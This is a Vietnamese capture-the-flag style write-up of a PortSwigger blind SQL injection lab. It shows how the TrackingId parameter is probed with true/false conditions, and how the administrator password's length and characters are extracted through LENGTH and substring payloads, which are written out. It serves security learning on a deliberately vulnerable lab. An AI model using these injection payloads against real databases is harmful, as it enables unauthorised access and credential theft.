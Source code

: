 # Target Goal: 

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

# Recon:

Đầu tiên ta cần kiểm tra xem param `TrackingId` bị dính blind SQLi hay không bằng cách điều kiện đúng và sai

![image](https://github.com/vanniichan/Portswigger/assets/112863484/5666197b-e4e6-4d3d-8177-7760e23f73e2)

--> dkien đúng --> respond : Welcome.. 

--> dkien sai --> respond : K trả về Welcome

--> Cf có lỗi 

`select tracking-id from tracking-table where trackingId = 'BtZVMZKha6PZ18sT' and (select 'x' from users LIMIT 1)='x' --a`

Câu lệnh trên để chúng ta xác nhận rằng có table `users` trong db (Đây là bài lab đầu tiên nên làm chi tiết)

`select 'x' from users LIMIT 1)='x'`

Nếu có thì mệnh đề này true và ngược lại ( nhớ encode URL )

![image](https://github.com/vanniichan/Portswigger/assets/112863484/0d1ec6a6-cdcd-412f-8205-3b55457c24aa)

Tiếp theo là tìm password, để tìm ra cách duy nhất hữu dụng nhất vẫn là sử dụng điều kiện TRUE FALSE mà server trả về

`select tracking-id from tracking-table where trackingId = 'BtZVMZKha6PZ18sT' and (select username from users where username='administrator' and LENGTH(password)>1)='administrator'--a`

Kiểm tra độ dài của password qua `LENGTH(password)>1 nếu cái này đúng cộng với 2 điều kiện luôn đúng ở trên thì mệnh đề TRUE -->Welcome...

![image](https://github.com/vanniichan/Portswigger/assets/112863484/f1828b07-5845-48e2-bd85-70a2f4a738fe)

Brute-force để tìm chính xác độ dài của nó (Bao gồm 20 kí tự)

![image](https://github.com/vanniichan/Portswigger/assets/112863484/69a4446d-3cd5-49ff-9428-fefcd45e1682)

Giờ thì brute-force password với `substring(password,1,1)`: lây kí tự đầu tiên với độ dài 1 (substring tính index từ 1)

`select tracking-id from tracking-table where trackingId = 'BtZVMZKha6PZ18sT' and (select substring(password,1,1) from users where username='administrator')='a'--a`

Setting sương sương

![image](https://github.com/vanniichan/Portswigger/assets/112863484/c159b6e2-30e5-4d49-93fd-c15375a48326)

![image](https://github.com/vanniichan/Portswigger/assets/112863484/aa3c6db1-f846-4b40-9530-b01c3559d815)

password: `ricehmkkkeymckde68bx`

# Flag:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/96d5b578-5f5a-481e-b45d-9c931021e982)
